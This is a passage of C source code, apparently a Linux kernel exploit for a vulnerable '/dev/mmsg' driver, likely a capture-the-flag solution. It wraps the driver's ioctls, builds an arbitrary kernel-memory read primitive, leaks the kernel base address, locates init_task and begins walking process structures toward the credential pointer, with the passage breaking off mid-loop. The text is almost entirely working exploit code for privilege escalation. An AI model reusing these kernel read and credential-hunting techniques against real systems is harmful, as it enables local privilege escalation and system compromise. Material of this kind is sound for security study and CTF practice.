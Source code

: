 ```c
    if (ret < 0) {
        perror("ioctl MMSG_UPDATE");
        exit(1);
    }
}

void put_desc_mmsg(char *data) {
    struct mmsg_arg arg = {
        .data = data,
    };
    int ret = ioctl(vuln_fd, MMSG_PUT_DESC, &arg);
    if (ret < 0) {
        perror("ioctl MMSG_PUT_DESC");
        exit(1);
    }
}

void get_desc_mmsg(char *data) {
    struct mmsg_arg arg = {
        .data = data,
    };
    int ret = ioctl(vuln_fd, MMSG_GET_DESC, &arg);
    if (ret < 0) {
        perror("ioctl MMSG_GET_DESC");
        exit(1);
    }
}

uint64_t readu64(uint64_t addr) {
    uint64_t dev[2];
    // dev[0] = 0xffffffff82614940;
    dev[0] = 0x0000010000000100;
    dev[1] = addr;
    put_desc_mmsg(&dev);
    uint64_t val = 0;
    copy_mmsg(0, 8, &val, 1);
    return val;
}

int main(void) {
    kernbase = leak_syscall_entry() - entry_SYSCALL_64_offset;
    printf("[+] kerbase: %llx\n", kernbase);
    vuln_fd = open("/dev/mmsg", O_RDONLY);
    if (vuln_fd < 0) {
        perror("open /dev/mmsg");
        exit(1);
    }
    // 	struct list_head           tasks;                /*   920    16 */
    //  pid_t                      pid;                  /*  1176     4 */
    // 	const struct cred  *       cred;                 /*  1664     8 */
    // 	char                       comm[16];             /*  1680    16 */
    int ret = 0;
    char buf[1024];
    memset(buf, 'A', 1024);
    add_mmsg(0x1337, 0x100, buf);
    uint64_t init_task = kernbase + (0xffffffff82614940 - 0xffffffff81000000);

    printf("[+] init_task: 0x%llx\n", init_task);
    printf("[+] searching for task_struct...\n");
    prctl(PR_SET_NAME, (unsigned long)"deadbeef", 0, 0, 0);
    pid_t mypid = getpid();
    printf("[+] mypid: %d\n", mypid);
    uint64_t cur_task = init_task;
```